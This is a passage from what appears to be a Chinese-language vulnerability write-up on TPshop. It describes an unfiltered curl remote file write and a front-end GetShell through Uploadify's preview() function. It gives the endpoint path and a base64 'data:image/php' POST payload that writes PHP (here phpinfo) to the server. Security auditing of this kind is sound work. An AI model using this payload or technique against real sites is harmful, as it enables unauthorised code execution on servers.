 这只是一个测试的类，全局没发现调用的...

这段代码创建一个 **curl** 会话用于远程访问 **$file_url**，并使用 **curl_exec()** 将内容带回，**fwrite** 写到自定义目录中；

curl拿回的内容并没有过滤，就造成了远程任意文件内容写入，直接getshell；

## file_put_contents 前台GetShell

**Path：**/application/admin/controller/Uploadify.php

**Func：**preview()

**Demo：**

页面 `http://192.168.215.136/Home/Uploadify/preview` 访问返回结果和API类似：

![TPshop_9.png](/assets/images/2017-12-06/3419546539.png)

向其 POST 数据：`data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==`

![TPshop_10.png](/assets/images/2017-12-06/541415266.png)

`PD9waHAgcGhwaW5mbygpOw==` 为 `<?php phpinfo();` 的base64加密，多了 **?>**会报错，写不进去；

`image/php` 需要注意 php；

GetShell：

![TPshop_11.png](/assets/images/2017-12-06/2295488259.png)
